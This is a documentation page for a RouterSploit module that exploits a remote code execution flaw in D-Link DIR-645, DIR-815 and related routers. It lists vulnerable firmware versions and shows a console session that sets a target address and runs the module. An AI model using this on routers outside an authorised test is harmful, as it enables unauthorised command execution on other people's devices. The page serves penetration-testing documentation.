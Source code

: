 # D-Link DIR-645 & DIR-815 RCE

## Description
Module exploits D-Link DIR-645 and DIR-815 Remote Code Execution vulnerability which allows executing command on the device.

## Authors
* Michael Messner <devnull[at]s3cur1ty.de> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://www.s3cur1ty.de/m1adv2013-017](http://www.s3cur1ty.de/m1adv2013-017)

## Vulnerable devices
* DIR-815 v1.03b02
* DIR-645 v1.02
* DIR-645 v1.03
* DIR-600 below v2.16b01
* DIR-300 revB v2.13b01
* DIR-300 revB v2.14b01
* DIR-412 Ver 1.14WWB02
* DIR-456U Ver 1.00ONG
* DIR-110 Ver 1.01

## Usage
```
rsf > use exploits/dlink/dir_645_815_rce
rsf (D-Link DIR-645 & DIR-815 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (D-Link DIR-645 & DIR-815 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DIR-645 & DIR-815 RCE) > run
[*] Running module...
```
